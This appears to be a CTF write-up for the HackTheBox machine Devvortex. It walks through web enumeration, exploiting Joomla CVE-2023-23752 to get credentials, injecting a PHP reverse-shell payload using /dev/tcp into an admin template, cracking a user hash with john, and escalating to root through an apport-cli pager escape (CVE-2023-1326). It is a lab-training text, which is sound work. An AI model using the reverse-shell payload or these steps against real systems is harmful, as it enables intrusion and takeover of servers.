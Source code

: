 ```yaml
---
title: Devvortex Writeup - HackTheBox
date: 2023-12-29
categories: [Writeups, HTB]
tags: [Linux, HTB, CTF, Easy]
img_path: /assets/img/commons/devvortex/
image: devvortex.png
---
```


Hello!

In this write-up, we will dive into the **HackTheBox** [**Devvortex**](https://app.hackthebox.com/machines/577) machine.
It is a **Linux** machine on which we will carry out a **Web enumeration** that will lead us to a Joomla application. When we have entered to the admin dashboard, we will be able to get a **reverse shell** and access the system.
Then, we will proceed to do a **privilege escalation** in order to own the system.


Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active.

```bash
> ping -c 1 10.10.11.242
PING 10.10.11.242 (10.10.11.242) 56(84) bytes of data.
64 bytes from 10.10.11.242: icmp_seq=1 ttl=63 time=118 ms

--- 10.10.11.242 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 118.172/118.172/118.172/0.000 ms
```

## Port scaning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -sT -vvv 10.10.11.242

Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.082s latency)
Not shown: 998 closed tcp ports (conn-refused)
PORT	STATE	SERVICE
22/tcp	open	ssh
80/tcp	open	http
```

## Web Enumeration
---
After the port enumeration, we access to the browser to see what's on the http server.

![home](home.png)

There doesn't seem to be anything interesting, so let's search for hidden directories with `gobuster`.

```bash
gobuster dir -u http://devvortex.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

![gobuster1](gobuster_1.png)


There doesn't seem to be anything, let's see what's out there looking for **Virtual Hostings**:

```bash
gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-topmillion-5000.txt
```


We found the virtual host "`dev.devvortex.htb`", let's access the browser again.


![dev_home](dev_home.png)


After that, we go back to search for hidden directories, and we get:

![gobuster2](gobuster_2.png)

Voilà! We found the directory "`/administrator`".

![admin](admin_page.png)


## Exploitation
---
Inspecting the page we found session cookies but, after trying to use them to access the application using burpsuite, we realize that it is a **rabbit hole**.


Searching for information, we found the tool `joomscan`, we installed it and ran it against the machine.
We found that the server is using Joomla version 4.2.6, which is vulnerable to the [**CVE-2023-23752**](https://www.cvedetails.com/cve/CVE-2023-23752/)

On the **exploit-db** website we found a PoC, so we download it and test it against the server.

![exploit](exploit.png)


## Information gathering
---


### Credentials
As we can see, when executing the exploit we get some access credentials. We tried to use them through the SSH server but without success;
however, we were able to access the Joomla admin panel.

![dashboard](dashboard_admin.png)


### Obtaining a Reverse Shell
Investigating a little bit through the dashboard interface, we found (inside the System section) a subsection called Administrator Templates.
Inside, we found a pre-installed template, we access and found this:

![templates](templates_dash.png)

To get a reverse shell, all we have to do is to inject a payload in any .php file and then open its path from the browser.

We open the **login.php** file and write the following payload:

```php
system('bash -c "bash -i >& /dev/tcp/10.10.14.120/443 0>&1"');
```

> NOTE: If you are going to use the payload, be sure to set your ip and port.


We save the modified file, open a new tab and access the file path while we set `netcat` to listen using the command:

```bash
nc -lnvp 443
```

And we are in!

### Obtaining the user flag
In order to get the user flag we have to access the system with the user *logan*. As we saw when we ran the exploit, *logan* was also registered in Joomla, therefore, it must alse be registered in the database.

We open `mysql`, but before, we create an interactive pseudo-terminal using:

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

Now, we access `mysql`:

```bash
mysql -u lewis -p joomla --password=+++++++++
```

Once we are inside mysql, we can see what's inside using the instruction:

```sql
SHOW TABLES;
```

We found 71 tables, but we are only interested in one: **sd4fg_users**. Let's see what contains:

```sql
SELECT * FROM sd4fg_users;
```

![data](data_leak.png)

We can see the encrypted password. Using tools like Hashcat or JohnTheRipper we should be able to get the plaintext password easily.

```bash
john hash-file.txt --wordlists=/usr/share/wordlists/rockyou.txt
```

We get the following:

![passwd](logan_passwd.png)

We can now access via SSH as the user logan and, after that, we should be able to get the **user.txt** flag.

![user_flag](logan_flag.png)


## Privilege escalation
---
Now that we have user access to the system, let's look at how we can escalate privileges.

We start by looking for which processes are running with sudo permissions and, in addition, are visible to the user logan. We execute the command:

```bash
sudo -l
```

After running it, we can see that the user logan has sudo access to the **apport-cli** tool. We run `apport-cli -v` and get that the version running is 2.20.11

Searching in google we find [this commit](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb)
that warns us of the [**CVE-2023-1326**](https://www.cvedetails.com/cve/CVE-2023-1326/) in this `apport-cli` version and gives us a PoC to exploit it.

All we need to do is execute the following:

```bash
sudo /usr/bin/apport-cli -c /var/crash/test.crash
```

After executing this, we can see that we are asked to select a letter, we press 'v', wait for a few seconds and as if it were magic, we get the pager.
Now, all we need to do is run `!/bin/bash` and we spawn a root terminal.

Finally, we have the whole system committed and, of course, we can now obtain the root flag of the machine.



> H4Ppy H4ck1ng!

